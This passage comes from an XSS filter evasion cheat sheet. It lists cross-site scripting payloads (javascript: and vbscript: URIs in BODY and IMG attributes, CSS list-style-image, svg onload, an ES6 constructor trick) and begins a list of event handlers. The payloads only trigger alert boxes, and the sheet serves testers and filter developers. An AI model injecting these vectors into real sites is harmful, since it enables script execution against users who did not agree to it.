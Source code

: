 `<BODY BACKGROUND="javascript:alert('XSS')">`

### IMG Dynsrc

`<IMG DYNSRC="javascript:alert('XSS')">`

### IMG Lowsrc

`<IMG LOWSRC="javascript:alert('XSS')">`

### List-style-image

Fairly esoteric issue dealing with embedding images for bulleted lists. This will only work in the IE rendering engine because of the JavaScript directive. Not a particularly useful cross site scripting vector:

`<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>`

### VBscript in an Image

`<IMG SRC='vbscript:msgbox("XSS")'>`

### Livescript (older versions of Netscape only)

`<IMG SRC="livescript:[code]">`

### SVG Object Tag

`<svg/onload=alert('XSS')>`

### ECMAScript 6

```
Set.constructor`alert\x28document.domain\x29
```

### BODY Tag

Method doesn't require using any variants of `javascript:` or `<SCRIPT...` to accomplish the XSS attack). Dan Crowley additionally noted that you can put a space before the equals sign (`onload=` != `onload =`):

`<BODY ONLOAD=alert('XSS')>`

### Event Handlers

It can be used in similar XSS attacks to the one above (this is the most comprehensive list on the net, at the time of this writing). Thanks to Rene Ledosquet for the HTML+TIME updates.

The [Dottoro Web Reference](http://help.dottoro.com/) also has a nice [list of events in JavaScript](http://help.dottoro.com/ljfvvdnm.php).

1. `FSCommand()` (attacker can use this when executed from within an embedded Flash object)
2. `onAbort()` (when user aborts the loading of an image)
3. `onActivate()` (when object is set as the active element)
4. `onAfterPrint()` (activates after user prints or previews print job)
5. `onAfterUpdate()` (activates on data object after updating data in the source object)
6. `onBeforeActivate()` (fires before the object is set as the active element)
7. `onBeforeCopy()` (attacker executes the attack string right before a selection is copied to the clipboard - attackers can do this with the `execCommand("Copy")` function)
8. `onBeforeCut()` (attacker executes the attack string right before a selection is cut)
9. `onBeforeDeactivate()` (fires right after the activeElement is changed from the current object)
10. `onBeforeEditFocus()` (Fires before an object contained in an editable element enters a UI-activated state or when an editable container object is control selected)
